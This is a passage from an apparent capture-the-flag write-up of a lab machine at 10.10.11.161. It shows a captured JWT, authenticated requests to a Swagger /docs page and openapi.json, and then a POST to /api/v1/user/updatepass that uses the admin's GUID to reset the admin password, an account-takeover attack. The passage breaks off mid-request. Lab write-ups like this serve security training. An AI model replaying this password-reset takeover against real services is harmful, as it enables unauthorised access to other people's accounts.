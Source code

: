 ```http
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMwODE2LCJpYXQiOjE2NTg5Mzk2MTYsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiOGE1ODY4MTgtN2MwMS00YzhiLTg3ZmItZTE3ZTRlYTU0NTc3In0.GwIaZvCct8X4Wir15fG2af6oepn-2tf7Dgm9sFHi8MM","token_type":"bearer"}
```
Once we have the token, we can try to login into the initially discovered endpoint `/docs` and see if we have anything interesting here.  
To authenticate against this endpoint we need to add the Authorisation header as well as the JWT token.
```http
GET /docs HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMxMTUyLCJpYXQiOjE2NTg5Mzk5NTIsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiOGE1ODY4MTgtN2MwMS00YzhiLTg3ZmItZTE3ZTRlYTU0NTc3In0.Hjw6uONnhht4gMq3-xb6s_WAbKqCdSdF8LA7Tb-b9rg
```
then we'll need to add the same token to each of the following HTTP requests:  
```http
GET /openapi.json HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMxMTUyLCJpYXQiOjE2NTg5Mzk5NTIsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiOGE1ODY4MTgtN2MwMS00YzhiLTg3ZmItZTE3ZTRlYTU0NTc3In0.Hjw6uONnhht4gMq3-xb6s_WAbKqCdSdF8LA7Tb-b9rg
```

## User
Once we have an initial foothold into the API we can see that the `/docs` endpoint is serving a swaggerUI service, here we can see interesting APIs that we can use to leverage an attack.  
For example, we can see an `/updatepass` endpoint which is requesting not only the new basswood but also the guid.  
If we send to this endpoint a new password and the guid of admin that we discovered  earlier, we might be able to change the password of the admin account:  
```http
POST /api/v1/user/updatepass HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 79
Connection: close
Sec-GPC: 1

{
  "guid": "36c2e94a-4271-4259-93bf-c96ad5948284",
  "password": "Password1"
```